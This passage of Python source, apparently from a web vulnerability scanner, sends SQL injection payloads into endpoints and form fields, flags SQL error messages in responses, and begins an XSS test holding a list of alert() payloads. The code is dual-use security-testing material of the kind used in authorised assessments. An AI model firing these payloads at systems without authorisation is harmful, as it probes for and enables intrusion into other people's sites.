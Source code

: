 ```python
                            )
                            
                            # Check for SQL errors
                            response_lower = response.text.lower()
                            for error_pattern in error_patterns:
                                if error_pattern in response_lower:
                                    vuln_info = f"SQL injection at {endpoint} (param: {param_name})"
                                    self.vulnerabilities.append(vuln_info)
                                    vulnerable_endpoints.append(endpoint)
                                    print(f"  [!] {vuln_info}")
                                    break
                            
                        except requests.RequestException:
                            continue
        
        # Test forms
        for form in self.forms[:3]:  # Limit for demo
            form_action = urljoin(self.target_url, form['action'])
            
            for payload in sql_payloads[:2]:  # Test first 2 payloads
                form_data = {}
                for input_field in form['inputs']:
                    if input_field['name']:
                        form_data[input_field['name']] = payload
                
                try:
                    if form['method'] == 'POST':
                        response = self.session.post(form_action, data=form_data, timeout=10)
                    else:
                        response = self.session.get(form_action, params=form_data, timeout=10)
                    
                    # Check for SQL errors
                    response_lower = response.text.lower()
                    for error_pattern in error_patterns:
                        if error_pattern in response_lower:
                            vuln_info = f"SQL injection in form at {form_action}"
                            self.vulnerabilities.append(vuln_info)
                            print(f"  [!] {vuln_info}")
                            break
                            
                except requests.RequestException:
                    continue
        
        print(f"  Tested SQL injection on {len(self.endpoints)} endpoints")
    
    def test_xss_vulnerabilities(self):
        """Test for Cross-Site Scripting vulnerabilities"""
        print("\n[+] Testing XSS vulnerabilities...")
        
        # XSS payloads
        xss_payloads = [
            "<script>alert('XSS')</script>",
            "<img src=x onerror=alert('XSS')>",
            "<svg onload=alert('XSS')>",
            "javascript:alert('XSS')",
            "<iframe src='javascript:alert(\"XSS\")'></iframe>",
            "';alert('XSS');//",
            "\"><script>alert('XSS')</script>",
            "<body onload=alert('XSS')>",
            "<input onfocus=alert('XSS') autofocus>",
            "<details open ontoggle=alert('XSS')>"
        ]
```